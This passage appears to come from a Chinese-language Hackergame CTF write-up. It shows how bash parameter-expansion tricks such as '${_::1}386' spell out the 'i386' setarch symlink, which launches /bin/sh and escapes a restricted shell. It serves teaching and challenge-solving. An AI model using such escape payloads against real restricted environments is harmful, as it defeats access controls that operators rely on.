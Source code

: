 ```python
}

for cmd in sorted(commands):
    expr = "".join(char_to_expr(c) for c in cmd)
    print(f"{cmd}:\t{expr}")
```

结果：

```
h2ph:   ${-::1}2${_:2:1}${-::1}
i386:   ${_::1}386
init:   ${_::1}${_:1:1}${_::1}${_:4:1}
ip:     ${_::1}${_:2:1}
php:    ${_:2:1}${-::1}${_:2:1}
tput:   ${_:4:1}${_:2:1}${_:3:1}${_:4:1}
```

`tput` 是一个用于控制终端输出格式的命令，没有什么用。

`i386` 是 `setarch` 命令的符号链接，`setarch` 包含在 [util-linux](https://github.com/util-linux/util-linux) 包中，用于改变程序运行时的系统架构环境。

例如在 AMD64 (x86_64) 系统上，运行 `i386 command` 会使得 `command` 看到的系统架构是 `i686` 而不是 `x86_64`。

更重要的是，根据 man page 的说明，如果不指定要运行的程序，`setarch` 会默认运行 `/bin/sh`：

```
The execution domains currently only affects the output of uname -m.
For example, on an AMD64 system, running setarch i386 program will
cause program to see i686 instead of x86_64 as the machine type. It can
also be used to set various personality options. The default program is
/bin/sh.
```

这意味着直接运行 `i386` 命令就能获得一个完整的 shell 环境：

```
PowerfulShell@hackergame> ${_::1}386
id
uid=1000(players) gid=1000(players) groups=1000(players)
```

另外：那么为什么会有一个 `i386` 链接到 `setarch` 呢？

在源码的 [478-479 行](https://github.com/util-linux/util-linux/blob/4e14b5731efcd703ad13e24362448c87cecb5424/sys-utils/setarch.c#L478-L480)中写道，如果程序名不是 `setarch`，就认为是通过符号链接调用的，这时会把程序名当作目标架构名：

```c
archwrapper = strcmp(program_invocation_short_name, "setarch") != 0;
if (archwrapper) {
    arch = program_invocation_short_name;	/* symlinks to setarch */
```

你可以看到系统中还存在其他许多符号链接：

```
$ find /usr/bin -type l -lname '*setarch*' 2>/dev/null
/usr/bin/i386
/usr/bin/linux32
/usr/bin/linux64
/usr/bin/uname26
/usr/bin/x86_64
```
